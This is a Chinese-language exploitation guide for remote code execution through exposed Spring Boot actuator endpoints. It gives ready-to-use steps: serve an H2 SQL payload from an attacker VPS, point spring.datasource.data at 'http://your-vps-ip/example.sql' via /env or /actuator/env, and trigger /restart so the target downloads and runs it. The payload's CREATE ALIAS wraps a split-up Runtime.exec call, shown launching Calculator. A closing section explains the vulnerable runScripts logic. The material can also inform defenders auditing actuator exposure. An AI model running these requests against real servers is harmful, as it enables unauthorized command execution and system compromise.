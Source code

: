 **利用方法：**

**步骤一：托管 sql 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```xml
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

**步骤二：设置 spring.datasource.data 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```

**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器可以通过 spring.datasource.data 属性来设置 jdbc DML sql 文件的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot-autoconfigure` 组件中的 `org.springframework.boot.autoconfigure.jdbc.DataSourceInitializer.java` 文件代码逻辑中会使用 `runScripts` 方法执行请求 URL 内容中的 h2 database sql 代码，造成 RCE 漏洞
